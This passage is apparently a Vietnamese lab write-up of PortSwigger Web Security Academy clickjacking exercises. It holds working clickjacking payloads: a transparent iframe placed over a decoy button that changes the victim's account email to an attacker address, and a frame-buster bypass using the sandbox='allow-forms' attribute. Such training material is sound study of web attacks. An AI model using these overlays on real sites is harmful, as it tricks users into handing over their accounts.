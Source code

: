 Tuy nhiên vì đây là chức năng update email. chúng ta có thể dùng nó để update email của chúng ta và leak thông tin.
Dùng burpSuite để bắt lại request khi update email.

![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_param_request.jpg?raw=true)

Điều đó làm thay đổi cấu trúc của link mà chúng ta chèn vào trong khung HTML được dựng: 
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acfc1f101e46e458806d5c3d00b0004c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Phần *email=hacker@attacker-website.com* chính là phần chúng ta thêm email của hacker để leak thông tin.



### Lab: Clickjacking with a frame buster script
Bài lab này đã cho chúng ta biết dùng lại kỹ thuật của 2 bài lab trên là vô dụng, và đưa ra 1 hướng mới cho chúng ta khai thác.
```
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML 
they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security 
settings may prevent their operation or indeed the browser might not even support JavaScript. An effective
attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with 
the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster 
script can be neutralized as the iframe cannot check whether or not it is the top window:

<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Như vậy là chúng ta đã có hướng giải quyết cho vấn đề, chúng ta dùng sandbox = allow-forms để vô hiệu hóa, vậy chúng ta truy cập exploit server để bắt đầu thực hiện xây dựng khung HTML 
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_script.jpg?raw=true)
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
```
